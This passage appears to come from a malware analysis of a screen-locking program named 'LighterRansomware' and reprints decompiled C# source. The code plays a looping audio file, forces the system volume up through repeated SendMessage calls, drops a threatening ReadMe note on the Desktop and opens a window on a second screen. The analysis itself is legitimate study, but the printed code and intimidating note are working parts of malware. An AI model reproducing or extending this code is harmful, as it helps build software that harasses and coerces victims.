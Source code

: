 ![form1](/images/rents/form1.png)

```
public Form1()
{
    base.Load += this.Form1_Load;
    base.LostFocus += this.Form1_LostFocus;
    base.FormClosing += this.Form1_FormClosing;
    this.InitializeComponent();
}
```

### Loading Form1

```
private void Form1_Load(object sender, EventArgs e)
{
MyProject.Computer.Audio.Play(Resources.dox, AudioPlayMode.BackgroundLoop);
try
{
Form1.SendMessage(base.Handle, 793U, base.Handle, (IntPtr)11468800L);
...
Form1.SendMessage(base.Handle, 793U, base.Handle, (IntPtr)11468800L);
}

try
{
string text = Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.Desktop), "ReadMe_LighterRansomware.txt");
string text2 = "If you are reading this, you have unblocked or cheated your way out. Remember, WE KNOW WHAT YOU DID....";
File.WriteAllText(text, text2);
}

try
{
Screen screen = Screen.AllScreens[1];
MyProject.Forms.Form2.StartPosition = FormStartPosition.Manual;
MyProject.Forms.Form2.Location = screen.Bounds.Location + (Size)new Point(100, 100);
MyProject.Forms.Form2.Show();
this.Timer2.Start();
}
```